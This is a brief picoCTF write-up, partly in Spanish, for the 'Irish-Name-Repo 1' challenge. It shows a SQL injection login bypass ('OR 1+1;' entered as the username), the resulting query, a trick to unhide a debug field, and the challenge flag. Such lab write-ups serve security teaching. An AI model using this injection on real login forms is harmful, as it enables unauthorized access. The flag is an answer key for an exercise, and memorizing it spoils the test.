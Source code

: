 # Irish-Name-Repo 1 

## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución
```bash
username: ' OR 1+1;
password: password
SQL query: SELECT * FROM users WHERE name='' OR 1+1;' AND password='password'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

Se utilizo inyeccion SQL, se entro al login de la pagina, para despues inspeccionar la pagina y despues hacer que el cuadro de texto debug ahora sea visible, una vez hecho esto en el apartado de username se escribio: ' OR 1+1;'
Una vez escrito eso, un password cualquiera y en el recuadro de debug escribir 1, la pagina lanza la bandera

## Notas adicionales


## Referencias